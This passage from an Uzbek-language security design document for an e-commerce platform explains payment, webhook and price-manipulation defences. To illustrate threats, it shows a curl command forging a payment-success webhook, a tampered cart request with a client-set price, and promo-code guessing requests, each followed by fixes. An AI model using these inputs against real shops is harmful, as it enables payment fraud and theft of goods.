va komissiyasini ko'radi. Agregat so'rovlarda scope'ni unutish osonroq, chunki
u yerda "resurs ID" yo'q.

> **Qoida:** `analytics` moduli endpoint'lari **default'da faqat `OWNER`/`ADMIN`**.
> Sotuvchiga ko'rsatiladigan har qanday hisobot — **alohida**, aniq scope'langan
> endpoint (`GET /me/sales`), umumiy hisobotga filtr qo'shish orqali **emas**.
> `docs/10-crm-pos-analytics.md`.

---

## 4. To'lov xavfsizligi

> To'liq to'lov oqimi, ledger, rassrochka — `docs/08-payments-and-installments.md`.
> Bu yerda faqat **xavfsizlik** jihatlari.

### 4.1. PCI DSS scope'idan qochish — asosiy strategiya

**Qoida bitta va u muzokara qilinmaydi:**

> **Kelvin karta ma'lumotini (PAN, CVV, amal qilish muddati) HECH QACHON
> qabul qilmaydi, uzatmaydi, log qilmaydi va saqlamaydi.**

**Nega bu shunchalik qat'iy:** karta ma'lumoti tizimga **bir soniyaga** tegsa
ham — u PCI DSS scope'iga tushadi. Bu audit, sertifikatlash, yillik tekshiruv
va jiddiy xarajat degani. Bitta yoritish do'koni uchun bu **iqtisodiy jihatdan
imkonsiz**.

Yechim — karta ma'lumoti hech qachon Kelvin serveridan o'tmasin:



**Qizil zona — Kelvin'da emas.** Bu arxitektura qarori, optimizatsiya emas.

**Amaliy oqibatlar:**

| Qoida | Sabab |
|---|---|
| Karta maydonlari **frontend'da ham yo'q** | Bo'lsa — XSS orqali o'g'irlanadi va Kelvin **baribir** scope'ga tushadi |
| Provayder iframe/redirect ishlatiladi | Karta ma'lumoti provayder domenida kiritiladi |
| Log'da PAN'ga o'xshash naqsh **bloklanadi** | §11.5 redaction. Tasodifan tushib qolish xavfi bor |
| Saqlanadigan yagona narsa | Provayder **tokeni** (`Payment.providerToken`) va **oxirgi 4 raqam** (chek uchun) |

> **Karta tokenizatsiyasi:** takroriy to'lov (rassrochka avtoto'lovi) kerak
> bo'lsa — **provayderning** tokeni ishlatiladi. Token — bu karta emas,
> u faqat shu provayder + shu do'kon uchun ma'noga ega. Sizsa ham hujumchi
> undan boshqa joyda foydalana olmaydi.
>
> ⚠️ **Click/Payme/Uzum tokenizatsiyani qanday amalga oshirishi — TASDIQLANMAGAN.**
> Rasmiy hujjat kerak (kanon §10, `docs/08`). Rassrochka avtoto'lovi shunga
> bog'liq — §15, savol 12.

### 4.2. Webhook — nega bu P0

Webhook — provayderning "to'lov o'tdi" xabari. Agar uni **soxtalashtirsa
bo'lsa**:

```bash
# Hujumchi shuni yuboradi:
curl -X POST https://api.kelvin.uz/webhooks/click \
  -d '{"order_id":"K-2601-0042","status":"success","amount":50000000}'
```

→ Buyurtma `PAID` bo'ladi → tovar yuboriladi → **pul kelmagan**.

Bu **eng arzon va eng foydali** hujum: internetdan, autentifikatsiyasiz,
to'g'ridan-to'g'ri tovar. Shuning uchun webhook imzosi — P0.

### 4.3. Imzo tekshiruvi — ikkita klassik xato

```ts
// apps/api/src/modules/payment/webhook/webhook-verifier.ts
import { createHmac, timingSafeEqual } from 'node:crypto';

/**
 * XATO #1 — PARSE QILINGAN BODY'dan imzo hisoblash.
 *
 * Express JSON'ni parse qiladi, keyin biz uni qayta serialize qilsak —
 * bayt-ma-bayt BOSHQA satr chiqadi: kalitlar tartibi, probel, unicode
 * escape, son formati (1.0 -> 1). Imzo mos kelmaydi yoki (battari)
 * ba'zan mos keladi, ba'zan yo'q — "sirli" xato.
 *
 * Yechim: XOM (raw) body kerak.
 */

// apps/api/src/main.ts
app.use(
  '/webhooks',
  express.raw({ type: 'application/json', limit: '256kb' }),
);
// Faqat /webhooks uchun. Qolgan API normal JSON parser ishlatadi.

export function verifySignature(
  rawBody: Buffer,
  receivedSignature: string,
  secret: string,
): boolean {
  const expected = createHmac('sha256', secret).update(rawBody).digest('hex');

  const a = Buffer.from(expected, 'utf8');
  const b = Buffer.from(receivedSignature, 'utf8');

  /**
   * XATO #2 — oddiy `===` bilan solishtirish.
   *
   * `===` birinchi farqli baytda TO'XTAYDI. Ya'ni bajarilish vaqti
   * imzoning nechta boshlang'ich belgisi to'g'ri ekaniga bog'liq.
   * Hujumchi vaqtni o'lchab imzoni belgima-belgi tiklashi mumkin
   * (timing attack).
   *
   * timingSafeEqual — har doim bir xil vaqt sarflaydi.
   *
   * Uzunlik tekshiruvi ALOHIDA kerak: timingSafeEqual turli uzunlikda
   * TashlAYDI (throw). Uzunlik sir emas — uni oshkora tekshirish xavfsiz.
   */
  if (a.length !== b.length) return false;
  return timingSafeEqual(a, b);
}
```

> ⚠️ **Click/Payme/Uzum imzo sxemasi — HAR BIRIDA BOSHQA.** Ba'zilari HMAC,
> ba'zilari `md5(concat(...))` ishlatishi mumkin. **Bu yerdagi HMAC-SHA256 —
> umumiy misol, tasdiqlangan spetsifikatsiya EMAS.** Har provayderning rasmiy
> hujjatidan tekshiriladi (kanon §10). `docs/08-payments-and-installments.md`.

### 4.4. Replay himoyasi

Imzo to'g'ri bo'lsa ham, **o'sha xabarni qayta yuborish** mumkin. Agar
hujumchi bir marta haqiqiy "to'lov muvaffaqiyatli" webhook'ini ushlab qolsa
(masalan, log orqali) va uni 100 marta yuborsa — buyurtma 100 marta
"to'langan" bo'lishi mumkin.

Uch qavatli himoya:

| Qavat | Qanday | Nimadan himoya qiladi |
|---|---|---|
| **1. Timestamp oynasi** | Webhook'dagi vaqt joriy vaqtdan ±N daqiqadan uzoq bo'lsa → rad | Eski xabarni qayta yuborish |
| **2. Idempotentlik kaliti** | Provayder tranzaksiya ID'si `unique` ustunga yoziladi | Bir xil xabarning takrori |
| **3. Holat mashinasi** | `PAID` → `PAID` o'tishi taqiqlangan | Mantiqiy takror |

```ts
// Idempotentlik — DB darajasida, ilova darajasida EMAS.
//
// Sabab: "avval SELECT, keyin INSERT" ikki parallel webhook'da IKKALASI
// ham o'tib ketadi (race condition). Unique constraint — buni DB hal qiladi.

model PaymentAttempt {
  id                String   @id @default(uuid(7))
  /// Provayderning tranzaksiya ID'si. UNIQUE — replay'ni DB to'sadi.
  providerTxnId     String   @unique @map("provider_txn_id")
  provider          PaymentProvider
  // ...
  @@map("payment_attempts")
}

// Ilovada:
try {
  await tx.paymentAttempt.create({ data: { providerTxnId, ... } });
} catch (e) {
  if (isUniqueViolation(e)) {
    // Bu takror. XATO EMAS — provayder qayta urinishi normal.
    // 200 OK qaytaramiz, aks holda provayder yana va yana urinadi.
    return { ok: true, duplicate: true };
  }
  throw e;
}
```

> **`timestamp` oynasi qancha?** Bu provayderning retry siyosatiga bog'liq.
> ⚠️ **Noma'lum — rasmiy hujjatdan olinadi.** To'qib chiqarilmaydi.

### 4.5. Webhook — qolgan qoidalar

| Qoida | Sabab |
|---|---|
| **Summa tekshiriladi** | Webhook'dagi summa `Order.total` ga teng bo'lishi shart. Aks holda: hujumchi 1000 so'mlik to'lov qilib, webhook'da 5 000 000 deb yozadi |
| **HTTPS majburiy** | Aks holda MITM imzoni ham, tarkibni ham ko'radi |
| **IP allowlist** — ixtiyoriy | Provayder IP'lari ma'lum bo'lsa, qo'shimcha qatlam. ⚠️ IP'lar noma'lum → §15. **Imzo o'rnini bosmaydi** |
| **Rate limiting — YO'Q** | ⚠️ Webhook'ni cheklab, haqiqiy to'lov xabarini yo'qotish — bundan battari. §8.5 |
| **Tez javob (< 5s)** | Og'ir ish → BullMQ job'ga. Provayder timeout'da qayta urinadi → keraksiz takror |
| **Log'ga to'liq body — YO'Q** | Provayder body'sida shaxsiy ma'lumot bo'lishi mumkin (§6) |

---

## 5. Narx manipulyatsiyasi

### 5.1. Eng muhim qoida

> **Narx HAR DOIM serverda hisoblanadi. Mijozdan kelgan narx HECH QACHON
> ishlatilmaydi — u hatto O'QILMAYDI ham.**

Bu bo'lim mavjud, chunki bu xato **hozir ham** real loyihalarda uchraydi:

```ts
// ❌ HALOKATLI — lekin real kodda uchraydi
@Post('/cart/items')
addItem(@Body() dto: { variantId: string; qty: number; price: number }) {
  return this.cart.add(dto.variantId, dto.qty, dto.price); // ← mijoz narxi!
}
```

Mijoz DevTools'da so'rovni o'zgartiradi:

```json
{ "variantId": "...", "qty": 1, "price": 1000 }
```

→ 5 000 000 so'mlik qandil 1000 so'mga. To'lov ham "to'g'ri" o'tadi, chunki
provayderga **biz aytgan** summa yuboriladi.

**To'g'ri:**

```ts
// packages/contracts/src/cart/add-item.dto.ts
export class AddCartItemDto {
  @IsUUID(7)
  variantId!: string;

  @IsInt()
  @Min(1)
  @Max(999) // yuqori chegara — savat DoS'iga qarshi (5.4)
  qty!: number;

  // ★ `price` maydoni YO'Q.
  //
  // Bu shunchaki "ishlatmaymiz" emas — u DTO'da UMUMAN mavjud emas.
  // `forbidNonWhitelisted: true` (7.2) tufayli mijoz uni yuborsa,
  // so'rov 400 bilan RAD ETILADI. Jimgina e'tiborsiz qoldirilmaydi.
  //
  // Nega rad etish e'tiborsizlikdan yaxshi: agar mijoz `price` yuborayotgan
  // bo'lsa — u yo hujum qilmoqda, yo mijoz kodi eskirgan. Ikkalasi ham
  // JIM o'tishi kerak bo'lgan holat emas.
}
```

### 5.2. Narx qayerda "muzlatiladi"

`docs/07-order-and-checkout.md` da narx snapshot'i batafsil. Xavfsizlik uchun
muhim qismi:

| Bosqich | Narx manbai |
|---|---|
| Katalog ko'rish | `pricing` dvigateli, keshlanadi |
| Savatga qo'shish | **Saqlanmaydi.** Savat faqat `variantId` + `qty` |
| Savatni ko'rsatish | **Har safar qayta hisoblanadi** |
| Checkout boshlanishi | Hisoblanadi va `Order` ga **snapshot** qilinadi |
| To'lov | **Faqat `Order.total`** ishlatiladi |

**Nega savatda narx saqlanmaydi:** saqlansa — u eskiradi. Mijoz savatga
qo'shadi, narx ko'tariladi, u bir oydan keyin checkout qiladi → eski narx.
Bu xavfsizlik teshigi emas, lekin **pul yo'qotish**. Har safar qayta hisoblash
buni yo'q qiladi.

**Nega `Order` da esa snapshot QILINADI:** buyurtma berilgandan keyin narx
o'zgarsa, mijozning kelishilgan summasi o'zgarmasligi kerak. Bu — yuridik
va operatsion talab.

```ts
// Checkout paytida:
// Mijoz ko'rgan summa != server hisoblagan summa bo'lsa — TO'XTATAMIZ.
if (dto.expectedTotal !== undefined && dto.expectedTotal !== computedTotal) {
  // Bu `price` ni QABUL QILISH emas — bu TASDIQLASH.
  // Farq bor: expectedTotal hech qachon hisobga ISHLATILMAYDI,
  // u faqat "mijoz boshqa summa ko'rgan" holatini aniqlaydi.
  //
  // Sabab: narx savat ochiq turgan paytda o'zgargan bo'lishi mumkin.
  // Mijozga jim ravishda boshqa summani yozib qo'yish — noto'g'ri.
  throw new ConflictException({
    code: 'PRICE_CHANGED',
    computedTotal, // mijozga yangi summa ko'rsatiladi va tasdiq so'raladi
  });
}
```

### 5.3. Chegirma kodi — brute-force

**Muammo:** chegirma kodlari odatda qisqa va inson o'qiy oladigan
(`YANGIYIL25`). Ular **taxmin qilinadi**.

```
POST /cart/promo  { "code": "YANGIYIL25" }
POST /cart/promo  { "code": "YANGIYIL30" }
POST /cart/promo  { "code": "BAHOR20" }
...
```

Hujumchi lug'at bo'yicha aylanib, ishlaydigan kodni topadi va uni Telegram
kanalida tarqatadi. Chegirma "sizib ketadi" — do'kon rejalashtirilmagan
chegirmani hammaga beradi.

**Choralar:**

| Chora | Detal |
|---|---|
| **Rate limiting** | 5 urinish / 10 daqiqa / sessiya **va** IP (§8.3) |
| **Yagona javob** | "Kod noto'g'ri yoki amal qilmaydi" — **har doim bir xil**. "Muddati o'tgan" degan javob → kod **mavjudligini** oshkor qiladi |
| **Shaxsiy kodlar tasodifiy** | Bitta mijozga beriladigan kod — CSPRNG, kamida 10 belgi. `AZIZ10` — taxmin qilinadi |
| **Ishlatilish limiti** | `Discount.maxUses`, `maxUsesPerCustomer` — atomik hisoblanadi |
| **Audit** | Har qo'llash `AuditLog` da (§11.3) |
| **Anomaliya** | Bitta kod kutilmaganda ko'p ishlatilsa → alert (kod sizib ketgan) |

**Atomik hisoblash — nozik joy:**

```ts
// ❌ Race condition: 100 mijoz bir vaqtda -> limit oshib ketadi
const d = await tx.discount.findUnique({ where: { code } });
if (d.usedCount >= d.maxUses) throw new BadRequestException();
await tx.discount.update({ where: { id: d.id }, data: { usedCount: { increment: 1 } } });

// ✅ Atomik — shart UPDATE ichida. docs/06 dagi rezerv naqshining aynan o'zi.
const updated = await tx.$executeRaw`
  UPDATE discounts
     SET used_count = used_count + 1
   WHERE code = ${code}
     AND (max_uses IS NULL OR used_count < max_uses)
     AND valid_from <= now() AND valid_to >= now()
`;
if (updated === 0) throw new BadRequestException('invalid_or_exhausted_code');
```

### 5.4. Savat manipulyatsiyasi

| Hujum | Chora |
|---|---|
| **Manfiy miqdor** (`qty: -5` → summa kamayadi) | `@Min(1)`. **`@IsInt()` ham shart** — `qty: 0.5` float bilan narx bo'linadi |
| **Ulkan miqdor** (`qty: 999999`) | `@Max(999)` + qoldiq tekshiruvi (`docs/06`). `BigInt` overflow — kanon §8 tufayli muammo emas |
| **Boshqa savatga qo'shish** | `cartId` **mijozdan olinmaydi** — sessiya/cookie'dan (§3.4) |
| **Mavjud bo'lmagan variant** | FK constraint + `findFirst` bilan tekshiruv |
| **Nofaol variant** (`isActive: false`) | Savatga qo'shishda **va** checkout'da qayta tekshiriladi |
| **Bundle narxini buzish** | Bundle tarkibi serverda, `bundleId` bo'yicha olinadi (`docs/05`) |
| **Savat spam** (DoS) | Savatda maks N pozitsiya + rate limiting (§8.3) |

> **`@IsInt()` haqida alohida:** `qty: 0.5` yuborilsa va validatsiya faqat
> `@Min(1)` bo'lsa — `0.5` o'tmaydi. Lekin `qty: 1.5` o'tadi va
> `1.5 × 5 000 000` = noto'g'ri summa. Pul `BigInt` bo'lgani bilan (kanon §8),
> **miqdor** float bo'lib qolsa muammo saqlanadi. `@IsInt()` — majburiy.
